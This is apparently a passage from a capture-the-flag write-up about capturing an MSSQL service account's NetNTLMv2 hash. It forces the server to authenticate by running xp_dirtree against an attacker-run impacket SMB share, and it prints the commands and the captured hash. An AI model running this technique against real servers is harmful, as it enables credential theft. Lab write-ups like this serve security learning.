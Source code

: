 ```c
model                                                                                                                           
msdb                                                                                                                            
hmaildb                                                                                                                         
flagDB                           
```

As we need to get the password of the user mssqlcvs we can do this by XP_SUBDIRS Hash Stealing with impacket
On attacking machine:
```c
sudo impacket-smbserver share ./ -smb2support 
[sudo] password for r3so1v3: 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

Then we run:
```c
1> EXEC master..xp_dirtree '\\10.10.16.43\share\'
2> GO
subdirectory                                                                                                                                                                                                                                                         depth      
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- -----------

(0 rows affected)
```

This way we use XP_DIRTREE for Hash Stealing
After that we need to return to our attack machine and we can see that we got hash:
```c
sudo impacket-smbserver share ./ -smb2support 
[sudo] password for r3so1v3: 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.68.230,49676)
[*] AUTHENTICATE_MESSAGE (WIN-02\mssqlsvc,WIN-02)
[*] User WIN-02\mssqlsvc authenticated successfully
[*] mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:1cd215cecbce3abaeadb0fc4181255b2:010100000000000000322dad1411db015da772170901c63a0000000001001000410057007100730065004f0053006e0003001000410057007100730065004f0053006e0002001000610045006f0069004e0062004f00760004001000610045006f0069004e0062004f0076000700080000322dad1411db01060004000200000008003000300000000000000000000000003000002e730fc16d3cd75cf010a577516f7fe7231017147e654f5b6fd60366c83c8ccc0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00340033000000000000000000
[*] Closing down connection (10.129.68.230,49676)
[*] Remaining connections []

```